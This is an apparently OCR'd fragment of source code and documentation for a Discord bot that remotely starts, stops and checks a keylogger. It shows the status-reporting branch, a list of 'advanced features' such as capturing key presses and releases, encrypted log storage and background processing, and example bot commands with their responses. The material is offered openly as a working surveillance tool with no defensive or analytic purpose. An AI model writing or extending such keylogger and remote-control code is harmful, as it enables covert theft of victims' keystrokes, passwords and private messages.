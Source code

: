 ```python
        elif action.lower() == "status":
            status = keylogger.get_status()
            await ctx.send(
                f"🔍 Keylogger Status:\n"
                f"• Running: {'Yes' if status['is_running'] else 'No'}\n"
                f"• Log size: {status['log_size']} bytes\n"
                f"• Encryption key: `{status['encryption_key'][:10]}...`"
            )
            
        else:
            await ctx.send("❌ Invalid action. Use 'start', 'stop', or 'status'.")
            
    except Exception as e:
        await ctx.send(f"⛔ Error: {str(e)}")
```

### Advanced Features Included:

1. **Singleton Pattern**: Ensures only one keylogger instance exists
2. **Enhanced Key Tracking**: Captures both key press and release events
3. **Secure Configuration**: Encrypted configuration file storage
4. **Detailed Logging**: JSON-formatted logs with timestamps
5. **Background Processing**: Continuous log processing thread
6. **Status Reporting**: Get detailed keylogger status
7. **Proper Resource Cleanup**: Ensures all hooks are removed when stopped

### Usage Examples:

1. Start the keylogger:
   ```
   /keylog start
   ```
   *Response:*
   ```
   ✅ Advanced keylogger started
   • Log file: keystrokes.log
   • Encryption: Enabled
   • Event tracking: Press/Release
   ```

2. Stop the keylogger:
   ```
   /keylog stop
   ```
   *Response:*
   ```
   ✅ Advanced keylogger stopped
   • All hooks removed
   • Log processing terminated
   ```

3. Check status:
   ```
   /keylog status
   ```
   *Response:*
   ```
   🔍 Keylogger Status:
   • Running: Yes
   • Log size: 2048 bytes
   • Encryption key: b'GUXjM0NpZ0'...
   ```
